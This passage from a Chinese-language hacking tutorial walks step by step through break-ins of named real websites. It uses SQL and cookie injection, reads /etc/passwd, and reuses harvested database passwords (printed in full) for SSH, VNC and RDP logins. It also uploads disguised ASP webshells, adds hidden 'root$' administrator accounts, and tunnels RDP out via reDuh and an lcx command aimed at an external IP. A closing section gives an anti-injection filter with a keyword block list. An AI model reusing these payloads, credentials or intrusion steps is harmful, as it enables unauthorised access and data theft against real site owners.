FTP 和 3389 都开了，但是并没有开放 43958 端口。在服务器的目录里也没有找到 serv-u 程序，看来服务器并不是采用 serv-u 的 FTP 程序，所以没有办法用

```
/c net user root$ RiQ0ix8u /add
```

```
/c net user root$
```

```vb
Dim DB, DB1, DB2
Dim strDB_ComputerName,strDB_ID,strDB_PWD,strDB_Name,strConnect
Dim oConn, oCmd, rs, sql, i, m_id, custmer_nm, gubun
strConnect="Provider=SQLOLEDB.1;Password=" & strDB_PWD & ":User ID=" & strDB_ID & ":Initial Catalog=" & strDB_Name & ";Data Source=" & strDB_ComputerName
set db=server.createObject("adodb.connection")
db.open strconnect
strDB_Name="dongjin"
strConnect="Provider=SQLOLEDB.1;Password=" & strDB_PWD & ":User ID=" & strDB_ID & ":Initial Catalog=" & strDB_Name & ";Data Source=" & strDB_ComputerName
set db1=server.createObject("adodb.connection")
db1.open strconnect
```

```
server=localhost;UID=sa;PWD=dongjin515@;database=master;Provider=SQLOLEDB
```

## 第五章 黑客入侵和网络渗透

serv-u 漏洞来提权了。

先来连接一下 3389，无法连接！服务器并不在内网啊，难道这个端口是假的？陆续测试了一下其他端口，结果如图 59。

看来服务器应该是设置了 TCP/IP 端口筛选，或 IPSec 端口策略，对端口进行了过滤。除了 80 端口外，其它全部不能外连，提权陷入困境了。看来不先解决这个问题，就算添加了用户也白搭。

### 6、超级 webshell 跳板——reDuh

> reDuh 这个工具可以把内网服务器的端口通过 http/https 隧道转发到本机，形成一个连通回路。主要用于目标服务器在内网，或做了端口策略的情况下，连接目标服务器内部开放端口。

> reDuh 有客户端和服务端之分，服务端是个脚本，要上传到对方服务器，通过本地的客户端连接上去进行执行。针对不同服务器，服务端也有 aspx、php、jsp 三种版本，客户端是 java 写的，本机执行时最好装上 JDK 环境。

上传 reDuh.aspx 到 D:\dongjn_web\Brand_Site\notice\img 下面，成功后回到本机，打开 CMD 来到 reDuh 客户端目录，输入命令：java reDuhClient，如图 60。

命令格式：java reDuhClient 服务器域名或 IP http 80 路径/reDuh.aspx

```cmd
C:\WINDOWS\system32\cmd.exe
E:\SQL\reDuhClient-0.3\Client-SSL>java reDuhClient
Usage: java reDuhClient <webserver> <port> <http|https> <linkToReDuh.jsp>
e.g <HTTP> : java reDuhClient www.compromised.com http 80 /secretDirectory/reDuh.jsp
..jsp
e.g <HTTPS>: java reDuhClient www.compromised.com https 443 /secretDirectory/reDuh.jsp
E:\SQL\reDuhClient-0.3\Client-SSL>_
```

图 60

我们输入命令：java reDuhClient www.blackyak.co.kr http 80 /notice/img/reduh.aspx，执行结果如图 61。

```cmd
C:\WINDOWS\system32\cmd.exe - java reDuhClient www.blackyak.co.kr http 80 /notice/im...
C:\WINDOWS\system32\cmd.exe - java reDuhClient www.blackyak.co.kr http 80 /notice/img/reduh.aspx
[Info]Attempting to start reDuh.jsp from www.blackyak.co.kr:80/notice/img/reduh.aspx. Please wait...
[Info]Waiting for remote webserver service port to be set
[Info]Service port on webserver has been set to 42008
[Info]reDuhClient service listener started on local port 1010
```

图 61

```cmd
C:\WINDOWS\system32\cmd.exe - nc -vv 127.0.0.1 1010
C:\>nc -vv 127.0.0.1 1010
DNS fwd/rev mismatch: localhost != hp6520s
localhost [127.0.0.1] 1010 (?) open
Welcome to the reDuh command line
>>
```

图 62

根据程序的提示，连接本地 1010 端口，直接用 nc 即可。打开另外一个 CMD，输入命令：nc -vv 127.0.0.1 1010，回车执行后结果如图 62。

当看到“Welcome to the reDuh command line”的提示后，就可以输入 reDuh 的命令了。我们输入命令：[createTunnel]1234:127.0.0.1:3389，执行结果如图 63。

```cmd
C:\WINDOWS\system32\cmd.exe - nc -vv 127.0.0.1 1010
C:\>nc -vv 127.0.0.1 1010
DNS fwd/rev mismatch: localhost != hp6520s
localhost [127.0.0.1] 1010 (?) open
Welcome to the reDuh command line
>>[createTunnel]1234:127.0.0.1:3389
Successfully bound locally to port 1234. Awaiting connections.
>>...
```

图 63

返回提示“Successfully bound locally to port 1234. Awaiting connections”，说明已经连接成功了，你连接本机的 1234 端口就相当于连接到目标服务器的 3389 端口，就绕过服务器的端口过滤了。

在连接之前，由于工具转发数据比较慢，最好将 mstsc 的分辨率调到最低，其它的东西尽量不要加载，不然连接上去会非常慢。我们输入 IP：127.0.0.1:1234，回车后结果如图 64。

此时在 java 的那个 CMD 窗口中就可以看到数据传递，如图 65，从传递的数据大小来看，显然速度比较慢。

```cmd
C:\WINDOWS\system32\cmd.exe - java reDuhClient www.blackyak.co.kr http 80 /notice/im...
[Info] Localhost ===> 127.0.0.1:3389:1 (12 bytes read from local socket)
[Info] Localhost <=== 127.0.0.1:3389:1 (15 bytes picked up from remote port)
[Info] Localhost ===> 127.0.0.1:3389:1 (12 bytes read from local socket)
[Info] Localhost <=== 127.0.0.1:3389:1 (15 bytes picked up from remote port)
[Info] Localhost ===> 127.0.0.1:3389:1 (12 bytes read from local socket)
[Info] Localhost <=== 127.0.0.1:3389:1 (15 bytes picked up from remote port)
[Info] Localhost ===> 127.0.0.1:3389:1 (12 bytes read from local socket)
[Info] Localhost <=== 127.0.0.1:3389:1 (375 bytes read from local socket)
[Info] Localhost <=== 127.0.0.1:3389:1 (42 bytes picked up from remote port)
[Info] Localhost <=== 127.0.0.1:3389:1 (386 bytes picked up from remote port)
[Info] Localhost ===> 127.0.0.1:3389:1 (519 bytes read from local socket)
[Info] Localhost ===> 127.0.0.1:3389:1 (226 bytes read from local socket)
[Info] Localhost ===> 127.0.0.1:3389:1 (22 bytes read from local socket)
[Info] Localhost ===> 127.0.0.1:3389:1 (17 bytes read from local socket)
[Info] Localhost ===> 127.0.0.1:3389:1 (17 bytes read from local socket)
[Info] Localhost ===> 127.0.0.1:3389:1 (17 bytes read from local socket)
[Info] Localhost ===> 127.0.0.1:3389:1 (73 bytes read from local socket)
[Info] Localhost ===> 127.0.0.1:3389:1 (108 bytes read from local socket)
[Info] Localhost ===> 127.0.0.1:3389:1 (31 bytes read from local socket)
```

图 65

好不容易连接上了 3389，总要试试几个密码吧！现在已经知道对方 SA 的密码：dongjin515@，说不定管理员也会设同样的密码做为 administrator 的登录密码呢。

于是在 3389 登录框输入这个密码，过程有些慢，要耐心等一会。输完后一按回车，没想到居然成功进入系统了，如图 66。

还以为要继续想办法提权，没想到这样就进了系统，看来社会工程学依然是非常的强大，所以当你提权陷入困境时，不妨试试现有的口令，说不定会有意外的收获。

## 5.2 PHP 网站注入之 Linux 系统

在 IE 里打开注入点：http://program.tcfsh.tc.edu.tw/news/read_news.php?news_id=3043，在后面加上 and 1=1 进行访问，如图 67。

可以看到页面返回正常，接着修改连接后的字符为 and 1=2，再次访问后页面返回不正常了，如图 68。

我们再试试在连接后加个单引号，看看会不会爆出路径，访问后结果如图 69。

成功暴出路径：/usr/local/www/program/news/read_news.php，服务器应该是 linux。

### 1、HYSI 工具注入

打开“海阳顶端网 PHP 注射工具”，在 URL 里输入：http://program.tcfsh.tc.edu.tw/news/read_news.php?news_id=3043，点击“检测”，如图 70。

从图中可以看到，页面上的数字 1-8 都是可以显示字段的位置，随便选一个吧，我们来读取数据库当前用户。在“操作位置”处选"3"，下拉菜单里选择"current_user"，点击“操作”，如图 71。

试试能不能读取文件，在下拉菜单里选"load_file"，参数输入：/etc/passwd，点击“操作”，如图 72。

### 2、查找 mysql 用户名和密码

现在已经知道了服务器的路径，那么就来找一下 mysql 的配置信息，看看能不能找到用户名和密码。先来读取 `/usr/local/www/program/news/read_news.php`（就是暴出的路径），如图 73。

在源代码里面发现有一个连接文件：`connect.php`。再来读取一下这个文件，结果如图 74。

哈哈，我们得到 mysql 数据库的用户名：root，密码：rootnm5278。既然是 root 用户，也许管理员也会把 linux 的登录密码设置成 rootnm5278，我们来测试下。

### 3、社会工程学获得 cmdshell 和远程桌面

大家应该都知道，linux 安装完成后会默认开放 22 远程管理端口，我们打开 SSH 连接工具"Putty"，在"HostName"里输入域名：`program.tcfsh.tc.edu.tw`，端口：22，如图 75。

点击"open"，输入用户名：root，密码：rootnm5278，等了几秒钟，熟悉的界面出来了，登录成功，如图 76。

随手输入命令：`netstat -an`，查看一下开放的端口，如图 77。

可以看到，开放了 5900 端口，这是一个 VNC 的端口，难道服务器开启了远程 VNC？打开 VNC 连接器，输入域名：`program.tcfsh.tc.edu.tw`，如图 78。

点击"Connect"，弹出一个输入密码的窗口，如图 79。我们同样输入：rootnm5278，登录成功了，远程桌面都出来了，如图 80。

真没想到社会工程学学会如此的好用，同时也给广大网站管理员敲响了警钟，千万要注意密码设置的问题。

### 5.3 cookie 注入突破防注入代码拿站

> 什么是 Cookies 注入？Cookies 是一种能够让网站服务器把少量数据储存到客户端的硬盘或内存，或是从客户端的硬盘读取数据的一种技术。Cookies 注入是针对防注入系统代码而产生的一种技术。

> 在许多 ASP 网页中，都以 Request.QueryString（GET）或 Request.Form（POST）方式来读取用户发给 WEB 服务器的值，而大多数防注入系统也只会检测 GET 和 POST 中的数据，如果有特殊字符（如 and、select 等），就禁止数据的提交，但它始终没有检测 Cookies 的数据。这样，使得入侵者有机可乘！

图 81

### 1、cookie 注入代码实现手动注入

在 IE 里访问 http://www.syheyi.com/shownews.asp?id=68，在连接后面加个单引号，会弹出一个提示窗，如图 81。
再打开 Google 浏览器，输入地址 http://www.syheyi.com/shownews.asp?id=68，如图 82。

图 82

然后直接在地址栏里输入：javascript:alert(document.cookie="id="+escape("68"))(注：68 就是 ID=68)，这是检测 cookie 注入的代码。我们按回车后，弹出一个提示窗，如图 83。这里为了后面的说明描述，我们把这个连接的页面暂定为 1 号页面。

图 83

点“确定”后，再新建一个标签，输入网址：http://www.syheyi.com/shownews.asp，看看能不能正常浏览 ID=68 的网页，如图 84。这里为了后面的说明描述，我们把这个连接的页面暂定为 2 号页面。

图 84

浏览了，说明此网站存在着 cookie 注入。下面我们进一步检测是否存在 SQL 注入。

直接在 1 号页面 http://www.syheyi.com/shownews.asp?id=68 的地址栏里输入 javascript:alert(document.cookie="id="+escape("68and 1=1"))进行访问，结果如图 85。

图 85

点击“确定”，刷新一下 2 号页面 http://www.syheyi.com/shownews.asp，结果如图 86。

图 86

可以发现，浏览正常。接着继续到 1 号页面里提交：

## 第五章 黑客入侵和网络渗透

Javascript:alert(document.cookie="id="+escape("68 and 1=2"))进行访问，结果如图 87。

再刷新一下 2 号页面，如图 88，返回“数据库出错”字样，说明存在 SQL 注入。

接下来直接可以开始用 union select 字段查询了，在 1 号页面中提交：javascript:alert(document.cookie="id="+escape("408 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin"))(注：字段数依然从 1 开始猜测，表就用 admin，往往很多网站都用它来做管理员表)，结果如图 89。

现在刷新一下 2 号页面，如图 90，字段显示位置为 2 和 3。

接着继续到 1 号页面去提交，把 2 和 3 换成你要猜的字段名，比如：username 和 password，这样我们就输入代码：javascript:alert(document.cookie="id="+escape("68 and 1=2 union select 1, password, username,4,5,6,7,8,9,10 from admin where id=1"))，如图 91。

回车后进行访问，点“确定”，再刷新 2 号页面，结果如图 92，可以看到出现了用户名和密码 MD5 值。

现在将暴出的密码 MD5 值拿到 www.cmd5.com 上面去破解一下，结果出来了，如图 93。

现在已经得到了用户名：admin，密码：0791idc，接下来就要找后台登录页面了。先试试通用的后台地址，在 IE 地址栏里输入：http://www.syheyi.com/admin/Login.asp 进行访问，结果如图 94。

哈哈，找到后台了！我们输入获得的用户名和密码及验证码，点击“确认”后登录成功，如图 95。

现在我们已经成功进入了后台，至于拿 webshell，我们以后再讲。大家是否觉得用 cookie 注入代码检测网站太麻烦了？两个页面轮换输入不同的连接，让人有些头晕。下面我再讲讲一些简单的方法，一定要注意看哦。

## 第五章 黑客入侵和网络渗透

# ### 2、cookie 注入中转站实现手动注入

这次我们选用"cookie 注入中转站”工具来进行操作，运行后进入主界面，在右边选"COOKIE 注入”，在“注入键名”中输入"ID="，“注入 URL 地址”和“来源页”输入：http://www.syheyi.com/shownews.asp，其它默认，如图 96。

然后点击“生成 ASP”，会在该工具目录下生成一个 jmCook.asp 文件。打开迷你 ASP 服务器，点击“设置”，网页目录选择 jmCook.asp 文件所在的目录，“确定”后再点击"start"开始运行 WEB 服务，如图 97。

现在打开 IE 输入：http://127.0.0.1/jmCook.asp?jmdcw=68 进行访问，如图 98。

能正常显示页面，说明 cookie 注入中转成功了，现在可以开始检测 SQL 注入了。直接提交 http://127.0.0.1/jmCook.asp?jmdcw=68%20and%201=1，如图 99。

返回正常，我们继续提交 http://127.0.0.1/jmCook.asp?jmdcw=68%20and%201=2 进行访问，如图 100。

返回出错，说明存在 SQL 注入。现在开始用 union select 查询字段，输入地址：http://127.0.0.1/jmCook.asp?jmdcw=68%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10%20from%20admin 后进行访问，如图 101。

我们看到，页面中显示字段位置为 2 和 3。接着开始暴用户名和密码，在 IE 里输入：http://127.0.0.1/jmCook.asp?jmdcw=68%20and%201=2%20union%20select%201,password,username,4,5,6,7,8,9,10%20from%20admin%20where%20id=1 后进行访问，结果如图 102。

# ### 3、后台数据库备份拿 webshell

介绍完了前面的两种方法，现在我们就进入后台来想办法拿 webshell 吧。点击“添加产品”，上传一张由 ASP 小马伪装成的图片格式文件 xiaoma.jpg（其实就是把 xiaoma.asp 改成 xiaoma.jpg），然后点击“上传”，如图 103。

上传成功后记下路径：UploadFiles/200942182737540.jpg，然后在后台找找有没有数据库备份之类的功能。

我们看到在“系统管理”里有“数据库备份”。进去后在“当前数据库路径”里输入：/UploadFiles/200942182737540.jpg，“备份数据库名称”输入：xiaoma.asa（名称随便取，但是扩展名一定要加），如图 104。

然后点击“确定”，备份数据库成功，如图 105。

我们可以看到，备份数据库的路径为 d:\VirtualHost\net8806669\www\admin\Databackup\xiaoma.asa.asa。

现在从 IE 打开木马地址：http://www.syheyi.com/admin/Databackup/xiaoma.asa（备份时显示的是 xiaoma.asa.asa，其实真正的文件是 xiaoma.asa），结果如图 106。

小马已经显示出来了，我们提交一个 aspx 木马上去吧。保存成功后打开 IE 输入地址：http://www.syheyi.com/admin/Databackup/jx.aspx，然后输入密码进入，如图 107。

先来执行一下命令，点击"command"，输入命令：net user，如图 108。

显示“拒绝访问”！再重新上传一个 cmd.exe 到 C:\Windows\temp\目录下，再运行命令：dir c:\，如图 109。

再来扫描一下端口，点击"PortScan"，如图 110。

发现 localadministrator 的默认密码被管理员修改了，找了半天的 SERV-U 目录都没有找到，其它目录基本上都没有权限访问，只好放弃提权了。

即使这里没有成功提权也没有关系，其实我真正的目的是告诉大家，如何突破防注入代码的限制，相信你看到这里，应该是掌握的差不多了。

## 5.4 简简单单旁注来拿站

> 什么是旁注？旁注是最近网络上比较流行的一种入侵方法，从字面上解释就是“从旁注入”。其操作是通过同一主机上不同网站的漏洞得到 webshell，从而利用主机上的程序或者是服务所暴露的用户所在物理路径进行入侵。

旁注是一种新生的入侵手法，其杀伤力远远超过系统的漏洞，而且在旁注的过程中可以加插很多的手法，例如：权限的提升，木马的种植等等。但是我在这里再次强调的是，旁注就是从旁注入，旁注是利用主机的信息而进行的跨站式入侵，而不是我们所看到、所理解的提权。旁注不需要提权，提升权限就已经扭曲了旁注的真正意义。旁注是一种很局限的入侵手法，但是结合其它的入侵手法之后，就会成为各种各样的入侵艺术，希望大家能够从中得到自己风格的入侵方式。

# ### 1、从旁注入

现在手上正好有一个台湾的站点：www.ezbest.com.tw，手动测试了一下，没有发现注入点。接着又放到阿 D 工具里面浏览一下，如图 112，也没有出现注入。

陆续找了一下其它漏洞，也没发现有上传的地方，后台也没有找到，那么怎么办呢？来试试旁注吧。打开"Domain3.5"，输入域名：www.ezbest.com.tw，点击">>"，得到 IP 地址。然后点击“查询”，就能够查找这个 IP 所对应的所有域名了，如图 113。

找出来三个域名，其中只有 www.joy0089.com 可以正常打开，所以就从它下手，看看存不存在注入点。经过测试，发现了注入点：http://www.joy0089.com/webpage/device1.asp?id=3（如何查找注入点我就不多说了，前面已经讲过很多次)。

# ### 2、注入猜表找后台

这里换个工具来检测，我们使用"pangolin"，在网址里输入：http://www.joy0089.com/webpage/device1.asp?id=3，点击“检查”，如图 114。

现在来猜一下表，点击“获取数据”标签页，再点击“获取表”，程序自动开始猜表。在表被成功猜解出来后，双击表名就可以猜出字段了，如图 115，我们猜解出 admin 表及其字段。

选上 user 和 password 这两个字段，点击“获取数据”，就可以猜出字段内容了，如图 116。

我们看到，得到了两个用户的名称和密码。现在来找管理员的登录页面，先试试默认的吧！在 IE 里输入 http://www.joy0089.com/admin/后进行访问，如图 117。

然后输入用户名：Ezbest，密码：@28164828-huyu@，登录成功，进入后台，如图 118。

# ### 3、上传 ASP 木马

进入后台后，找找哪些地方可以进行上传。我们在“二手器材”里找到一个上传图片的地方，如图 119。

点击“上传图片”，然后点击"Browse"按钮，选中本地的 ASP 木马，如图 120。

然后点击“图片上传”按钮，没有提示。我们在“上传图档”处的文件名上按鼠标右键，弹出文件属性框，从中知道木马上传后的地址，如图 121。

在 IE 里打开地址 http://www.joy0089.com/upload/blackmask.asp，如图 122，显示“找不到这个页面”。

难道没有上传成功？可能是上传文件有容量大小的限制，我们上传个小点的 ASP 木马看看。重新回到刚才上传的地方，这次上传一个 ASP 小马，如图 123，通过查看文件属性得到访问地址。

在 IE 里打开 http://www.joy0089.com/upload/xiaoma.asp 进行访问，如图 124，连接成功！

看来真是上传文件的大小有限制，现在我们可以通过这个小马提交 ASP 大马了。在路径里输入 D:\Inetpub\wwwroot\joy\upload\haoma.asp，然后在最下面的大框里输入 ASP 大马的源代码，最后点击“保存”，返回信息如图 125。

保存成功啦！打开 ASP 大马地址：http://www.joy0089.com/upload/haoma.asp，如图 126，然后输入密码进行登录。

现在找找 www.ezbest.com.tw 这个站点，发现目录 D:\Inetpub\wwwroot\huyu。我们上传个 ASPX 木马到这个目录吧（因为 ASPX 的木马权限要比 ASP 的大），返回信息如图 127，上传成功。

在 IE 里打开地址：http://www.ezbest.com.tw/css/jx.aspx，显示如图 128。

# ### 4、超级简单的提权

我们在这个 aspx 大马的主界面点击"command"按钮，看看能不能执行命令。输入命令：net user root$ 5201314 /add，准备添加个 root$ 用户，如图 129，命令执行成功！

这真有点意外！接着将用户 root$ 加入到管理员组，我们输入命令：net localgroup administrators root$ /add，如图 130，命令执行成功！

再次查看一下是否真的成功添加，我们输入命令：net user root$，如图 131。

绝对是雷人！没想到权限这么大，可以直接添加用户，看来管理员非常的失职了。接着来看看有没有开 3389 端口，输入命令：netstat -na，如图 132。

可以看到，3389 端口是开放的，但是服务器在内网，现在有两条路可以走：

> - 一、reDuh 利用脚本代码来转发数据，不容易被发现，最重要的是，如果你在内网，不需要经过任何的映射端口，直接通过 CMD 中的操作即可，非常的方便，但是速度比较慢。
> - 二、Lcx 转发会创建系统进程，容易被发现，虽然转发的速度比较快，但是如果你是在内网的话，要经过路由器的端口映射才能实现，这点比较麻烦。

①利用 reDuh 转发 3389

来到 webshell 的上传页面，上传 reDuh 服务端脚本 reDuh.aspx 到服务器上，如图 133。

当上传成功后回到本机，打开 CMD，切换到 reDuh 目录下输入命令：java reDuhClient www.ezbest.com.tw http 80 /css/reDuh.aspx，执行后结果如图 134。

再打开另外一个 CMD，用 nc 本地监听 1010 端口，命令为：nc -vv 127.0.0.1 1010，执行后再输入：[createTunnel]1234:127.0.0.1:3389，如图 135。

```bash
nc -vv 127.0.0.1 1010
[createTunnel]1234:127.0.0.1:3389
```

在 java 的那个 CMD 中，一直有数据在转发，说明已经成功了，如图 136。

接着打开本机远程桌面，输入 127.0.0.1:1234，用户名：root$，密码：5201314，回车后登录成功，如图 137。

②Lcx 转发 3389

打开 CMD，切换至 nc 目录，输入命令：lcx.exe -listen 9999 9990，如图 138，再将

## 第五章 黑客入侵和网络渗透

lcx.exe 上传到对方服务器上。

回到 webshell，执行 CMD 命令，输入：/c D:\Inetpub\wwwroot\huyu\css\lcx.exe -slave 122.231.87.144 9999 127.0.0.1 3389，如图 139。

运行成功后，看到本地主机的 CMD 中返回了对方的 IP 地址，如图 140。

现在已经转发端口成功了，打开远程桌面连接，输入 IP 地址：127.0.0.1:9990，就可以成功连接上对方的 3389 了。然后输入用户名：root$，密码：


5201314，登录后如图 141。

此时本地的 CMD 窗口中会有很多数据包在发包，如图 142。

关于这两种方法之间的利弊，大家自己斟酌吧，我这里也不再多说了。


## 5.5 站长的围炉夜话之安全漫谈

### 5.5.1 巧用代码让注入攻击变成无用功

SQL 注入漏洞的产生通常是由于程序员在设计程序时某个参数过滤不严所导致的，测试方法也很简单，比如有这样一个连接：show.asp?id=79，我们紧接着在后面加个单引号，如果出错则初步认定存在注入。然后再使用 and 1=1 和 and 1=2 进行分别提交，看看页面是否不同，如果不同则判定存在漏洞！当然，也有字符型和搜索型的注入漏洞，原理都差不多。

> 小知识: IE浏览器的“Internet选项”→“高级”中有一个“显示友好HTTP错误信息”的选项，我们取消前面的钩，这样才可以显示注入后的返回信息！


在前面的章节介绍了黑客是如何入侵网站的（其中SQL注入攻击是危害性最大的），这里就来介绍如何针对黑客们的这些入侵技术来进行防御。
这里介绍一个防注入程序，代码如下，读者朋友可以到http://dragonkiss.ys168.com/下载，如图143。

```asp
<%
' 使用方法很简单，只要在需要防注入的页面头部调用<!--#include file="fy.Asp"-->就可以做到页面防注入。
' 如果想整站防注，就在网站的一个公用文件中，如数据库链接文件 conn.asp 中添加<!--#include file="fy.Asp"-->来调用本软件

'----------------定义部份----------------
Dim Fy_Post, Fy_Get, Fy_cook, Fy_In, Fy_Inf, Fy_Xh, Fy_db, Fy_dbstr
On Error Resume Next
Fy_In = "'|;|and|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare|script|"
aa="qq156544632.txt" '------ 如入侵记录保存文件，这里最好改一下，呵呵！
Fy_Inf = split(Fy_In, "|")

'1----------------POST 部份----------------
If Request.Form<>"" Then
For Each Fy_Post In Request.Form
For Fy_Xh=0 To Ubound(Fy_Inf)
If Instr(LCase(Request.Form(Fy_Post)), Fy_Inf(Fy_Xh))<>0 Then
flyaway1=""&Request.ServerVariables("REMOTE_ADDR")&","&Request.ServerVariables("URL")&"+'post'"&Fy_post&"&"&replace(Request.Form(Fy_post),"'","*")&""
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath(aa), 8, True)
file.writeline flyaway1
file.close
set file=nothing
set fs=nothing
call jinggao()
End If
Next
Next
End If

'2----------GET 部份----------
If Request.QueryString<>"" Then
For Each Fy_Get In Request.QueryString
For Fy_Xh=0 To Ubound(Fy_Inf)
If Instr(LCase(Request.QueryString(Fy_Get)),Fy_Inf(Fy_Xh))<>0 Then
flyaway2=""&Request.ServerVariables("REMOTE_ADDR")&","&Request.ServerVariables("URL")&"+'get' "&Fy_get&"&"&replace(Request.QueryString(Fy_get),"'","*")&""
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath(aa),8,True)
file.writeline flyaway2
file.close
set file=nothing
set fs=nothing
call jinggao()
End If
Next
Next
End If

'3----------cookies 部份----------

If Request.Cookies<>"" Then
For Each Fy_cook In Request.Cookies
For Fy_Xh=0 To Ubound(Fy_Inf)
If Instr(LCase(Request.Cookies(Fy_cook)),Fy_Inf(Fy_Xh))<>0 Then
flyaway3=""&Request.ServerVariables("REMOTE_ADDR")&","&Request.ServerVariables("URL")&"+'cook' "&Fy_cook&"&"&replace(Request.Cookies(Fy_cook),"'","*")&""
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath(aa),8,True)
file.writeline flyaway3
file.close
set file=nothing
set fs=nothing
call jinggao()
End If
Next
Next
End If

Sub jinggao()
Dim str
Response.Write "呵呵！等着警察叔叔请你喝茶吧！<br>"
Response.Write "呵呵！等着警察叔叔请你喝茶吧，如果你没有能力清除日志的话！<br>"
Response.End
End Sub
%>
```

www.nohack.cn

把以上代码保存为一个 ASP 文件，比如 DEFENCE_INJ.ASP，如图 144。


此时，打开要进行防注入的网页文件，我这里选择的是一个 INDEX.ASP 文件。在此文件的开头加入一句“<!--#include file="defence_inj.Asp"-->”代码，即可成功防止该页面被黑客进行注入攻击，如图 145。


这样，只要在每个需要防注入的网页文件中都加入这个防注入页面的引用之后，就可以基本杜绝黑客的注入攻击了。当然，一个个地为网页文件添加代码是很麻烦的，所以可以在一些公共的网页文件，比如 CONN.ASP 文件中加入此代码，那么凡是引用了 CONN.ASP 的网页文件也就可以防止注入攻击了。

上面的防注入程序只是一个简单的例子，这里推荐大家使用 SQL 通用防注入程序，如图 146，它的功能更加强大，使用方法和上面介绍的程序是一样的。


### 5.5.2 数据库安全之 6 种武器

利用 ASP 脚本结合 access 数据库，是最常见的网站搭建方式。其中，access 数据库最大的缺点就是容易被搜索到，然后被下载，从而暴露账户和密码。

防止数据库被下载的常见方法有如下几种：

- 一、将数据库名称改成自己都记不住的名字。但是，这种方法对爆库没用，而且使用 google 也有可能搜到数据库路径。
- 二、在数据库名字中加 # 号或者 %24=$ 等特殊字符，利用 URL 编码特性防止下载。
- 三、去掉后缀，不要扩展名，系统有可能解析成路径，从而无法下载。当然，XP 下测试是可以下载的，笔者的格式是 fat32。
- 四、加系统文件的后缀，如后缀改为.db、.temp 等，系统是不允许下载这些后缀文件的！
- 五、在数据库中建立一个nodown的表，其中建立一个字段，数据类型选择ole对象。
- 六、把数据库后缀改为asp等系统可以解析的后缀。

其中，第六种方法是网站防止数据库被恶意下载而使用的最多的方法，但是也不是完美的。如果别人可以通过留言等其它方法向数据库提交数据，那就危险了。比如提交<%execute(request("a"))%>到数据库，那么访问数据库就可以执行此语句，这样攻击者就可以提交执行任意代码。

当然，这个隐患也是可以消除的，我们通过在ole对象中加入<%loop <%loop <%1=2<%2=1这样的语句，让asp出错来防止下载。

实现这种效果我采用以下两种方法：

- 一、建立一个nodown的表，nodown的字段，类型选择ole对象。然后建立一个文本文件，里面的内容为<%loop <%loop <%1=2<%2=1，然后打开nodown表，选择nodown字段。右键选择“插入对象”-“由文件创建”，将刚才建立的文本文件加入nodown表中，然后把数据库改为asp后缀。

接着进行访问，发现出现如下错误：

```
Active Server Pages, ASP 0116 (0x80004005)
Script 块缺少脚本关闭标记(% >)。
/198816/dataasp.asp, 第577行
```

这就说明成功了，但要注意，这里的nodown表一定要在其它表的前面。

- 二、使用asp代码，向数据库中增加nodown的表和字段，代码如下：

```asp
<%
db="data.mdb" '这里改成数据库的地址
Set conn = Server.CreateObject("ADODB.Connection")
constr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(""&db&"")
conn.Open constr
conn.execute("create table nodown(notdown oleobject)")
set rs=server.createobject("adodb.recordset")
sql=" select * from nodown"
rs.open sql,conn,1,3
rs.addnew
rs("nodown").appendchunk(chrB(asc("<"))&chrB(asc("%")))
rs.update
rs.close
set rs=nothing
conn.close
set conn=nothing
%>
```

其实，只要把密码设置得复杂点，并且网站的用户密码使用MD5加密，再用第一种方法加入nodown表和字段，并且数据库后缀改为asp，最终的名字改为如%24#$%da#%ta@##%conn#.asp这样，此时你的网站数据库已经非常安全了。

## 5.6 小结

本文在讨论了常见的网站入侵手法后，又介绍了大量的防范方法。之所以介绍这些知识，乃是希望读者朋友不要一味的学习入侵手法，而是要提高自己的安全意识，否则以后自己做了站点，如果对安全知识一无所知，那会被人笑话的。

## 第六章 网站入侵之Linux服务器

相信你看完前面的内容，肯定对网站渗透有所了解了。但是在讲过的内容中，大部份都是以 Windows 服务器为例而进行的网站入侵，对于Linux 服务器网站的介绍比较少，所以在这里我将重点介绍Linux 服务器网站的入侵。

### 6.1 C段嗅探入侵Linux网站

C 段嗅探最简单的解释就是对同一IP 段的目标进行嗅探。比如要入侵www.xxx.com 网站，它所对应的IP 地址为10.0.0.1。由于这个网站不存在漏洞，我们可以查找和www.xxx.com 同在一个IP 段（10.0.0.1-10.0.0.254）的其它网站，看看它们是否存在漏洞。在这个段中找到漏洞网站后，通过各种手段入侵，最后拿到此网站的最高服务器权限后，再利用cain 嗅探工具进一步嗅探www.xxx.com 的信息，最终达到入侵它的目的。


#### 6.1.1 从Windows服务器网站入侵到Linux服务器网站

从IE 访问目标网站：http://www.cqautofans.com，如图1，是一个采用最新版phpwind 7.0 搭建的汽车论坛，截止写稿之日起并没有出现新的重大漏洞，基本上是没有机会对此网站下手的。


不管怎样，先来找一下这个论坛的目录，说不定能找到一些敏感的页面。打开“Acunetix Web Vulnerability Scanner 6”工具，点击“web scanner”，输入域名：http://www.cqautofans.com/，点击“start”就开始搜索网站的目录了。大约10分钟左右结果就出来了，并没有找到敏感的页面，不过可以确定的是，这个论坛的服务器是Linux，如图2。既然在这个网站上没有找到可用漏洞，那么就只能从同一IP 段中的其它服务器下手了。打开IIS 段扫描工具，输入起始IP：210.83.80.1，结束IP：210.83.80.254，然后单击“scan”扫描这个段中所有开放80端口的服务器，如图3。


图3

扫描出来后，可以查询IP所对应的网站域名。这里我访问连接：http://www.linkwan.com/gb/broadmeter/VisitorInfo/QueryIP.asp，将开放80端口的IP一个个地进行查询。现在有了这些IP所对应的域名信息后，再访问这些域名，一个个地检测，直到找到漏洞网站为止。

这个过程是相当漫长的，只要有信心，就一定会找到。我终于在一台IP为210.83.80.117，WEB服务软件为IIS6.0的Windows服务器上面找到两个网站，分别是www.buywit.cn和www.cqnlf.cn。


图5


图4

对两个网站进行注入漏洞检测，最终在www.buywit.cn网站中找到注入漏洞，我们可以通过这个注入漏洞入侵这台Windows服务器并拿到最高管理员（administrator）权限，然后再利用cain工具去监听我们的目标Linux服务器210.83.80.97。虽然过程有些麻烦，但是也只有这个方法了，下面就开干。

从IE中访问http://www.buywit.cn/outworks.php?dx=15302'，注意哦，后面加了个’号，结果如图4。


图6

